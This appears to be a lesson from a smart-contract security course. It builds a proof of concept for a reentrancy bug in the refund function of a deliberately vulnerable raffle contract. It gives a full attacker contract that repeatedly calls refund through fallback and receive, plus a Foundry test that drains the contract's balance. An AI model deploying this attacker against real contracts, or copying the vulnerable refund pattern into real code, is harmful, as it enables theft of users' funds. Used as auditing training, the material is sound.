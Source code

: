 ```yaml
---
title: Reentrancy - PoC
---
```


_Follow along with this video:_

---

### Reentrancy in PuppyRaffle

Returning to PuppyRaffle, let's look at how all we've learnt affects this protocol.

A look again at this `refund` function and we see a classic case of reentrancy with an external call being made before updating state.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @Audit: Reentrancy
    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### The PoC

We can start by writing a new test in the protocol's `PuppyRaffle.t.sol` file. We'll have a bunch of players enter the raffle.

```js
function test_reentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

}
```

> **Note:** There _is_ a `playersEntered` modifier we could use, included in this test suite, but we'll choose to be explicit here.

Next we'll create our `ReentrancyAttacker` Contract.

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
}
```

Once deployed, this `attack` function is going to kick off the attack. In order, we're entering the raffle, acquiring our `playerIndex`, and then refunding our `entranceFee`.

This is going to cause our entranceFee to be sent back to our contract ... what happens then?

```js
function _stealMoney() internal {
    if (address(puppyRaffle).balance >= entranceFee) {
        puppyRaffle.refund(attackerIndex);

    }
}

fallback() external payable {
    _stealMoney();
}

receive() external payable {
    _stealMoney();
}
```

Adding these functions to our `ReentrancyAttacker` contract finishes the job. When funds are sent back to our contract, the `fallback` or `receive` functions are called which is going to trigger another `refund` call in our `_stealMoney` function, completing the loop until the `PuppyRaffle` contract is drained!

<details>
<summary> ReentrancyAttacker Contract </summary>

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);

        }
    }
    fallback() external payable {
        _stealMoney();
    }
    receive() external payable {
        _stealMoney();
    }
}
```

</details>
:br

Alright, let's add this logic to our test. First we'll create an instance of the attacker contract and an attacker address, funding it with 1 ether.

```js
ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
address attacker = makeAddr("attacker");
vm.deal(attacker, 1 ether);
```

Next, we'll grab some balances so we're able to log our changes after the attack.

```js
uint256 startingAttackContractBalance = address(attackerContract).balance;
uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
```

We finally call the attack, like so:

```js
vm.prank(attacker);
attackerContract.attack{value: entranceFee}();
```

Then we'll console.log the impact:

```js
console.log("attackerContract balance: ", startingAttackContractBalance);
console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
console.log(
  "ending attackerContract balance: ",
  address(attackerContract).balance
);
console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
```

<details>
<summary>test_reentrancyRefund</summary>

```js
function test_reentrancyRefund() public {
    // users entering raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    // create attack contract and user
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    // noting starting balances
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```

</details>
:br

All we need to do now is run this test with the command `forge test --mt test_reentrancyRefund -vvv` and we should receive...

::image{src='/security-section-4/23-reentrancy-poc/reentrancy-poc1.png' style='width: 75%; height: auto;'}

### Wrap Up

We did it! We've proven the vulnerability through our application of our PoC and we'll absolutely be submitting this as a finding - likely a `High`.

Be very proud of what you've learnt so far, you're now armed to safeguard De-Fi against some of the most prevalent vulnerabilities in Web3.

Let's go back to the code back and continue our recon in the next lesson.

